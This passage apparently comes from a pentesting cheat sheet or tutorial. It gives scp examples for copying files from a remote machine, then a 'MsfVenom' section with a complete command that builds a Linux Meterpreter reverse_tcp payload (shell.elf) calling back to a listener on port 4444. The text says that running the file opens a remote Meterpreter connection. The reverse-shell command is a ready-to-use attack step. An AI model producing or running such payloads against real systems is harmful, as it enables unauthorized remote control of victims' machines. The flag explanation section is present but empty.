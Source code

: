 Below we will use the same remote machine IP address of 192.168.1.50 and the same admin user. Note that here we are specifying our 'user' Desktop but you can also use the `.` to copy to your current location.
```bash
# Example of copying a file from a remote system to your local machine.
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt /home/user/Desktop
```

```bash
# Example of copying to your current location
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt .
```

### MsfVenom

Create a `shell.elf` exploit

```bash
msfvenom --arch x86 --platform linux --payload linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 --format elf -o /tmp/shell.elf
```
After running this command, the file `shell.elf` contains a program that, when run, will open a Meterpreter connection to your computer's port 4444.
<details><summary>Expand for explanation of flags.</summary></details>
